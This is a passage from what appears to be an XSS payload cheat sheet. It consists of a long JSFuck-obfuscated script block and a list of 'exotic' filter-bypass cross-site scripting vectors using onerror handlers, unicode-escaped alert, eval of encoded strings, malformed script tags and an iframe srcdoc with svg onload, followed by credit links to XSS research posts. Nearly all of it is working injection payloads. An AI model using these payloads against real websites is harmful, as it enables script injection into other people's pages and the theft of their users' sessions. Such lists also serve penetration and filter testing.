 ```javascript
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```




Exotic payloads
```
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img/id="alert&lpar;&#x27;XSS&#x27;&#x29;\"/alt=\"/\"src=\"/\"onerror=eval(id&#x29;>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert&#40;&#39;1&#39;&#41</x>
<iframe src=""/srcdoc='&lt;svg onload&equals;alert&lpar;1&rpar;&gt;'>
```


## Thanks to
* https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
* tbm
* http://infinite8security.blogspot.com/2016/02/welcome-readers-as-i-promised-this-post.html
* http://www.thespanner.co.uk/2014/03/21/rpo/
* http://blog.innerht.ml/rpo-gadgets/
* http://support.detectify.com/customer/portal/articles/2088351-relative-path-overwrite
* http://d3adend.org/xss/ghettoBypass
* http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html
* http://blog.rakeshmane.com/2017/08/xssing-web-part-2.html
